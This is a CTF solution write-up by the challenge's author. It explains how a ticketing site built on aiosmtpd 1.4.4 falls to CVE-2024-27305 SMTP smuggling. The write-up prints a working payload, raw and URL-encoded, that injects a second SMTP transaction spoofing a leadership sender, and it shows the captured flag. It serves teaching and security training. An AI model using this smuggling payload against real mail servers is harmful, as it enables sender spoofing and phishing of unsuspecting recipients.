







# "Supermassive Black Hole" Solution Writeup

This is a writeup for the challenge "Supermassive Black Hole", which I wrote for UIUCTF 2025. This was designed to be an easy-to-medium challenge focused on the SMTP protocol, with the additional goal of teaching competitors more about exploiting known CVEs. 

> This writeup was originally created in August 2025 as part of UIUCTF 2025. The original copy of this writeup will be visible in the [UIUCTF 2025 Public Release Repository]() once it is made public.

## Planning

First, we're provided with the description of the challenge:

```
Black Hole Ticketing Services prides itself on losing tickets at the speed of light. Can you get them to escalate?

Instancer url: https://supermassive-black-hole.chal.uiuc.tf/
```

Right away, it looks like the goal might be to escalate our privileges so that we can get a particular service ticket response. We don't have a ton of context for the challenge yet, so how exactly we'll do that is unclear.

It also looks like this challenge uses an instancer. That means each competitor will have their own unique cloud instance for the challenge, so the solution might rely on me changing some sort of state.

### Investigating the Website

Once I create my instance, I am brought to a website front page, at `http://inst-[instance number]-supermassive-black-hole.chal.uiuc.tf/`:



Terms like "subject" make this feel like we're sending some kind of email. Additionally, we're given this note:

`Notice: All support tickets are automatically forwarded to our IT department for processing.`

This implies that we may be communicating with the IT department through email. To get full context for the page and define a goal, let's keep looking.

The "About Us" page at `http://inst-[instance number]-supermassive-black-hole.chal.uiuc.tf/about` gives us a bit more context for the service we've been given:


Notably, we've got some emails, specifically for technical support and leadership. Additionally, it looks like IT only prioritizes emails from leadership, so our goal is likely to appear as though we're sending an email from `leadership@blackholeticketing.com` to the IT department email.

While it looks like we have a goal in place now, we should make sure to visit every page before jumping to conclusions. Finally, we reach the "View Tickets" page at `http://inst-[instance number]-supermassive-black-hole.chal.uiuc.tf/tickets`:



Looks like we can view the responses any tickets that we've submitted and clear them if we get too much clutter.

To know what an abnormal submission would look like, we should define normal functionality for the service. So what happens when we submit a ticket? 



To intercept the request made when I hit "submit ticket", I am using Burp Suite, though it would be visible in the networking tab of your browser's Inspect Element feature as well. This is what sending the form request looks like:

```http
POST /submit_ticket HTTP/2

...

subject=Hello%2C+world%21&message=Please+answer+my+ticket+it%27s+urgent%21
```

The request looks similar to what we wrote in the form, just with some HTML encoding to ensure that it is parsed as the user would expect it to be. There is a page that briefly shows up that confirms the ticket was submitted:



And then we're redirected to the tickets page, which now includes our neglected ticket:



### Investigating Source Code

This challenge also comes with a tarball containing the source code of the website and a Dockerfile of the infrastructure setup. There's a lot of moving parts, but here is a high-level diagram:



Important to the vulnerability is specifically in step 2, how the web service formats the user's inputs into an email, as well as step 3, how the email service parses the web service's SMTP request. On the web server side, we see this code:

```py
message_data = f"""\
    From: support@blackholeticketing.com\r\n\
    To: it@blackholeticketing.com\r\n\
    Subject: {subject}\r\n\
    X-Ticket-ID: {ticket_id}\r\n\
    \r\n\
    {message}\r\n\
    .\r\n""".encode()

ending_count = message_data.count(b'\r\n.\r\n')
if ending_count != 1:
    raise ValueError("Bad Request")

with smtplib.SMTP('localhost', 1025) as client:
    client.helo("example.com")
    client.sendmail('support@blackholeticketing.com', ['it@blackholeticketing.com'], message_data)
```

If you're familiar with the SMTP protocol, this should look a bit odd, but not necessarily wrong in its implementation. SMTP's end data indicator is defined strictly as `<CR><LF>.<CR><LF>`, so a check for the bytes `\r\n.\r\n` is, in theory, sufficient for catching smuggled emails. Unfortunately, not all SMTP libraries have historically followed this strict definition of the emails's end data.

When we send that email, it looks like we'll get a response at the `/check_response/<ticket_id>` endpoint:

```py
@app.route('/check_response/<ticket_id>')
def check_response(ticket_id):
    try:
        response_data = get_ticket_response(ticket_id)

        if response_data:
            return jsonify(response_data)
        else:
            return jsonify({'status': 'pending'})

    except Exception as e:
        print(f"Error checking response: {e}")
        return jsonify({'status': 'error', 'message': str(e)})
```

In the email server, we can get a better look at how the SMTP request is parsed:

```py
import asyncio
import time
from aiosmtpd.controller import Controller
from aiosmtpd.handlers import AsyncMessage
import internal
from database import init_database, save_ticket_response

class ITBotHandler(AsyncMessage):

...

    async def handle_message(self, message):
        try:
            self.processed_count += 1

            from_header = message.get('From', 'Unknown')
            subject = message.get('Subject', 'No Subject')
            body = str(message.get_payload())
            ticket_id = message.get('X-Ticket-ID', f'{int(time.time())}_{self.processed_count}')
            
            if internal.leadership_email in from_header.lower():
                response = "C-Suite ticket received! Will escalate immediately!" + f"\n{internal.flag}"
            elif internal.support_email in from_header.lower():
                response = "Request for support received! Will resolve after lunch break."
            else:
                response = "Please use our support portal to submit a ticket."
```

It looks like our guess that we need to escalate the IT response by sending an email as the leadership is correct! This goal was good to confirm more clearly in the source code.

Less obviously, but even more notably, it appears that they're using a message handler from the `aiosmtpd` library, for asynchronous handling of SMTP messages.

Looking deeper, the library has a CVE, and in particular, [CVE-2024-27305](https://nvd.nist.gov/vuln/detail/CVE-2024-27305). This is an SMTP smuggling vulnerability that relies on the fact that `aiosmtpd` has a looser definition of end data that includes the nonstandard `<LF>.<CR><LF>`. If our definition of a line ending for the web server is strict and losose for the email server, we can smuggle in a second email without detection! This vulnearability was fixed in the latest version of the library, `1.4.5`, but any versions prior can still be exploited.

Looking at the `requirements.txt` used to build the libraries for the service, it looks like this ticketing service is vulnerable:

```java
Flask==2.3.3
aiosmtpd==1.4.4
asyncio
requests
```
With that in mind, we can adjust our goal to specifically exploit `CVE-2024-27305` to smuggle an email that looks like it's from leadership to the IT team on the other end.

## Putting It Together

Based on the CVE and looking at how the email was formatted earlier, we can craft a payload that looks something like this:

```http
subject=Hello, world!

message=Escalate my email please\n
.\r\n
MAIL FROM:<leadership@blackholeticketing.com>\r\n
RCPT TO:<it@blackholeticketing.com>\r\n
DATA\r\n
From: leadership@blackholeticketing.com\r\n
To: it@blackholeticketing.com\r\n
Subject: CEO Request\r\n
X-Ticket-ID: [ticket id]\r\n
\r\n
Give me the flag
```

When looking at why our payload works, the most important part was to use the nonstandard line end before adding our smuggled email in:

```
Escalate my email please\n
.\r\n
```

That line ending will be ignored by the web service's check and parsed as two email requests by `aiosmtpd` in the email service. Let's format this using HTML encoding and see if the payload works:

```html
POST /submit_ticket HTTP/2

...

subject=Hello,+World!&message=Escalate+my+email+please%0A.%0D%0AMAIL+FROM%3A%3Cleadership%40blackholeticketing.com%3E%0D%0ARCPT+TO%3A%3Cit%40blackholeticketing.com%3E%0D%0ADATA%0D%0AFrom%3A+leadership%40blackholeticketing.com%0D%0ATo%3A+it%40blackholeticketing.com%0D%0ASubject%3A+CEO+Request%0D%0AX-Ticket-ID%3A+smuggled-message%0D%0A%0D%0AGive+me+the+flag
```

The response is an error, but based on my knowledge of SMTP responses, it seems like the message was parsed:



Once we look at the `/check_response/smuggled-message` endpoint, we see this message:

```
{"body":"Give me the flag\r\n","from":"leadership@blackholeticketing.com",
"processed_by":"it_bot","response":"C-Suite ticket received! Will escalate
immediately!\nuiuctf{7h15_c0uld_h4v3_b33n_4_5l4ck_m355463_8091732490}",
"subject":"CEO Request","timestamp":1754330014999}
```

We got IT to escalate, and the flag is `uiuctf{7h15_c0uld_h4v3_b33n_4_5l4ck_m355463_8091732490}`.

## Wrap-up

When writing challenges, I like to prioritze real-world scenarios when I can. Professionals often talk about how humans are the weakest link security wise, but we don't always discuss how things like phishing emails get past detections, especially in a CTF context, or how it often still takes technical skill to do "people hacking".

> [!NOTE]
> Interesting side note on the history of SMTP smuggling: "SMTP smuggling" was coined in 2023 as a part of of this [SEC Consult](https://sec-consult.com/blog/detail/smtp-smuggling-spoofing-e-mails-worldwide/) blog, and because the scope of the method wasn't fully considered, inadvertently led to multiple CVEs in notable SMTP libraries and services, and was essentially a 0-day drop without warning or a chance to fix the bug. Notably, the post was made right before Christmas, which the authors of Postfix were understandably [not very happy about](https://www.postfix.org/smtp-smuggling.html). Since then, the discourse over the release has been resolved and many vendors have patched the vulnerability, but I digress. I share this not just as a nerdy history lesson, but also as a reminder to all my CTF beginners that might be getting into bug bounty or blog posts to always be mindful of your impact and to consider the human on the other end of your explorations, not just from a "people hacking" perspective.
